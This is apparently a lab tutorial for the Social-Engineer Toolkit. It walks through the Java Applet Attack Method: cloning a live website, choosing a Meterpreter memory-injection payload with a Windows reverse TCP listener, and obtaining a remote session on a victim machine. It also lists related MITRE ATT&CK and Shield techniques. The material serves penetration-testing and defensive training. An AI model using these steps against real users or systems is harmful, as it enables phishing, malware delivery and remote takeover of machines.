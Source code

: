 
The Social-Engineering Toolkit
===========================

Website
-------

<https://www.trustedsec.com/downloads/social-engineer-toolkit/>

<https://github.com/trustedsec/social-engineer-toolkit>

Description
-----------

SET is an open source tool implemented in python which focuses on penetration testing through
social engineering. SET uses advanced attack techniques and has been featured in many books.

MITRE Shield
------------

Associated MITRE ATT&CK techniques:
* T1566 - Phishing
* T1189 - Drive-by Compromise
* T1059 - Command and Scripting Interpreter
* T1204 - User Execution

Applicable MITRE Shield techniques to counter:
* [DTE0017](https://shield.mitre.org/techniques/DTE0017) - Decoy System
* [DTE0018](https://shield.mitre.org/techniques/DTE0018) - Detonate Malware

Install Location
----------------

`/opt/set/`

Usage
-----

SET comes with a built in menu driven UI.  All you need to do is launch it; and follow the prompts.

`~#` **`cd /opt/set`**

`/opt/set#` **`./setoolkit`**

Example 1: Look over SET's features
-----------------------------------

After launching you will be greeted by the SET prompt.  It should look
similar to below.

    Select from the menu:

       1) Social-Engineering Attacks
       2) Fast-Track Penetration Testing
       3) Third Party Modules
       4) Update the Metasploit Framework
       5) Update the Social-Engineer Toolkit
       6) Update SET configuration
       7) Help, Credits and About

       99) Exit the Social-Engineer Toolkit

    set>

For its incredible power SET is extremely simple to use. No need to
memorize commands, since SET presents the user with a series of
itemized menus. Let's have a look at some of these features.

First off, notice that options 4-6 run updates for metasploit, SET, and
its options, respectively.

Next, let's look at `Social Engineering Attacks`. Just hit `1` at the prompt
and press enter. You'll be presented with your next layer of menus.

![](SET_files/SET02.png)

Select `Website Attack Vectors` in the current menu (item #2).

![](SET_files/SET03.png)

Note that the list of choices is now proceeded by a descritpion of each.
One of SET's more effective attack vectors is the `Java Applet Attack Method`.
This method requires that we build a fake website and load a
malicious java applet into it, then convince your target to run the
applet. Let's select the `Java Applet Attack Method`.

![](SET_files/SET04.png)

Now we can take a look at how we want to build this website.  Our options
are to choose bewteen using existing web templates or to clone a live site.

`set:webattack>` **`2`**

Selecting the live site you are now asked if you are using nat port
forwarding.  Answer `no`.

`set> Are you using NAT/Port Forwarding [yes|no]:` **`no`**

Next, we'll be asked for the IP address we will be listening on. Find
it by typing `ifconfig` in another terminal window and type it in
when SET prompts you.

`192.168.1.113`

Now, set is going to prompt us to decide if we want to use the built in applet, or create our own.  Applet signing can be a bit tricky, and in recent years web browsers have become increasingly picky about what types of applets they run (if they run applets at all).

		1. Make my own self-signed certificate applet.
		2. Use the applet built into SET.
		3. I have my own code signing certificate or applet.

		Enter the number you want to use [1-3]:

We recommend you select option #2.

Next, we're prompted for a site to clone.  Let's use `http://isitchristmas.com`

SET now retrieves the site and presents us with a (long) list of
payloads.  We'll choose #1 for now, which is the `Meterpreter Memory Injection`.

       1) Meterpreter Memory Injection (DEFAULT)	This will drop a meterpreter payload through PyInjector

`set:payloads>` **`1`**

Change the port for the listener if you want, or just leave it as the default 443.  If you have something already listening on 443 you'll obviously need to change the port here to something else, ex 8839.

`set:payloads> PORT of the listener [443]:` **`8839`**

Next we will select the type of payload we wish to deliver through memory injection.  I recommend option #1 which is `Windows Meterpreter Reverse TCP`.

		1) Windows Meterpreter Reverse TCP
		2) Windows Meterpreter (Reflective Injection), Reverse HTTPS Stager
		3) Windows Meterpreter (Reflective Injection), Reverse HTTP Stager
		4) Windows Meterpreter (ALL PORTS) Reverse TCP

`set:payload> Enter the number for the payload [meterpreter_reverse_https:` **`1`**

That's it, the listener should now launch.

Once the listener is running we're just waiting for the victim to surf
to our page. When they do they'll be presented with the ever-familiar
"Do you want to run this application" dialog box, where they always
seem to click yes.

If ADHD is configured as expected you should be able to find the payload at this address from the ADHD machine (open a web browser) `http://localhost/html/index.html`.  If you wish to trigger the payload you will want to connect to that page from a windows machine using a browser that will execute the applet (like Firefox or IE).  For this you will likely need the IP address to your ADHD instance which you can retrieve using the command `ifconfig`.

NOTE: Getting the applet to fire on another machine can be quite a pain.  You will likely run into compatibility issues with Java version, browser and browser version, firewall rules, etc.  Obviously, we just can't control every variable for this tutorial.

If we look on the listening machine we see that SET now shows the
Metasploit prompt and is creating sessions in the background.

    msf exploit(handler)> sessions -l

    Active sessions
    ===============

      Id Type                       Information
      -- ----                       -----------
      1  meterpreter x86/win32      Test\tester @ LAB  (192.168.1.141)

We can now interact with the session.

`msf exploit(handler) >` **`sessions -i 1`**

From here, you have the entire Metasploit Framework at your disposal, including plugins, post
modules, and exploits.


